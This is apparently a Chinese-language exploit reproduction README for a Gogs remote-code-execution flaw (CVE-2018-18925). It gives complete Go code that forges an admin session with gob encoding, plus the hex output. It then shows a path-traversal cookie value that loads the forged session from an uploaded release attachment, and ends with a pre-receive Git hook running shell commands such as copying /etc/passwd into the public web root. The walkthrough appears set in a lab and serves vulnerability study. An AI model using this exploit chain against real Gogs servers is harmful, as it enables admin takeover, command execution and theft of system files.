 # Gogs_RCE 漏洞复现


## 0x01 前台注册普通账号

![](./test.jpg)

## 0x02 go 编译伪造管理员session

`go run main.go`

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data,0777)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}

```
![](./data.png)
会在当前目录生成data文件

```
root@kali:~/go/demo# cat readme.txt 
go run main.go 

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
root@kali:~/go/demo# cat data |xxd
00000000: 0eff 8104 0102 ff82 0001 1001 1000 005a  ...............Z
00000010: ff82 0003 0673 7472 696e 670c 0a00 085f  .....string...._
00000020: 6f6c 645f 7569 6406 7374 7269 6e67 0c03  old_uid.string..
00000030: 0001 3106 7374 7269 6e67 0c05 0003 7569  ..1.string....ui
00000040: 6405 696e 7436 3404 0200 0206 7374 7269  d.int64.....stri
00000050: 6e67 0c07 0005 756e 616d 6506 7374 7269  ng....uname.stri
00000060: 6e67 0c06 0004 726f 6f74                 ng....root
root@kali:~/go/demo# 

```

## 0x03 普通用户发布新版本

![](./new_release.png)

附件：
`http://10.20.24.189:18080/attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

设置cookie字段 i_like_gogits 为 新版本 文件路径，拼接前2个字母
例如：

`attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

`i_like_gogits=../attachments/c/5/c58bf501-7163-44a8-b77d-79c8396609bb`

## 0x04 页面刷新，变成root管理员账号
![](./cookie.png)

修改以后

![](./cookie-admin.png)

root账号

![](./root.png)

## 0x05 仓库设置，管理Git钩子， 钩子名称 pre-receive 

当服务器为linux平台时，直接写shell脚本，执行命令。

命令触发在仓库上传新文件后。


## 0x06 命令回显-管理面板-应用配置管理-静态文件根目录

通过静态文件根目录 得到绝对路径：
例如 
```
静态文件根目录    /app/gogs
```
![](./path.png)

shell 脚本内容：

`cat /etc/passwd > /app/gogs/public/js/1.js`

![](./git_bash.png)

网站回显路径：

`https://127.0.0.1:3000/js/1.js`

![](./passwd.png)


## 参考链接：

`Cannot execute custom hooks on Windows #4255 `

https://github.com/gogs/gogs/issues/4255

https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925

